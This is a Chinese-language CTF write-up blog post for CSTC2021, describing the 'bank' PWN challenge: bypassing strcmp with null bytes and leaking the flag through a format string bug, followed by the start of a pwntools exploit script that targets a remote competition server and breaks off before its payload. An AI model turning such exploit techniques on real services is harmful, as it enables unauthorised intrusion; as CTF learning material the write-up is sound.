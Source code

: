 ```yaml
---
layout:     post
title:      CSTC2021
subtitle:   write up
date:       2021-05-05
author:     X1ng
header-img: CSTC2021.jpg
catalog: true
tags:
    - 比赛
    - wp
---
```


菜鸡还是喜欢简单题呜呜呜

[附件](https://github.com/X1ngn/ctf/blob/master/CSTC.zip)


## PWN

### bank

用\x00爆破随机数生成的密码绕过strcmp，格式化字符串漏洞输出内存中的flag

exp：

```python
#!/usr/bin/python

from pwn import *
import sys

context.log_level = 'debug'
context.arch='amd64'

local=0
binary_name='bank'

e=ELF("./"+binary_name)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

while True:
	try:
		if local:
			p=process("./"+binary_name)
		else:
			p=remote('81.70.195.166',10000)

		ru=lambda x:p.recvuntil(x)
		sl=lambda x:p.sendline(x)
```